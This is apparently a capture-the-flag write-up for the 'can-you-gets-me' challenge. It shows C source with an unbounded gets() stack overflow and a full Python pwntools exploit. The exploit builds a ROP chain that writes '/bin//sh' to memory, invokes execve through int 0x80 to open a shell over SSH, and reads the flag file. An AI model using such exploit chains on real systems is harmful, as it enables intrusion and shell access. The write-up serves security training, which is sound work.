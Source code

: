 can-you-gets-me - Points: 650 
===========

## Description

>Can you exploit the following program to get a flag? You may need to think return-oriented if you want to program your way to the flag.

## Hint:

> * This is a classic gets ROP

## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("GIVE ME YOUR NAME!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);


  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();

}


```

## Useful Information

There is many available gadgets (too much):
> * Unique gadgets found: 11741


## Exploit


**Too much gadget , let's use the ropchain function from [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) for generate the script:**

Final script modify for Flag :

```python
#!/usr/bin/python2.7
from pwn import *

user=""
password=""
host=""

path_exec="/problems/can-you-gets-me_4_f269dbca3097204b5d4a0064467b0a8c/gets"
rem = ssh(host=host,user=user,password=password).process(path_exec)


p = ''
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea060) # @ .data
p += p32(0x080b81c6) # pop eax ; ret
p += '/bin'
p += p32(0x080549db) # mov dword ptr [edx], eax ; ret
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea064) # @ .data + 4
p += p32(0x080b81c6) # pop eax ; ret
p += '//sh'
p += p32(0x080549db) # mov dword ptr [edx], eax ; ret
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea068) # @ .data + 8
p += p32(0x08049303) # xor eax, eax ; ret
p += p32(0x080549db) # mov dword ptr [edx], eax ; ret
p += p32(0x080481c9) # pop ebx ; ret
p += p32(0x080ea060) # @ .data
p += p32(0x080de955) # pop ecx ; ret
p += p32(0x080ea068) # @ .data + 8
p += p32(0x0806f02a) # pop edx ; ret
p += p32(0x080ea068) # @ .data + 8
p += p32(0x08049303) # xor eax, eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0807a86f) # inc eax ; ret
p += p32(0x0806cc25) # int 0x80

rem.sendline("A"*28+p)
rem.sendline("cat /problems/can-you-gets-me_4_f269dbca3097204b5d4a0064467b0a8c/flag.txt")
rem.interactive()
rem.close()

```

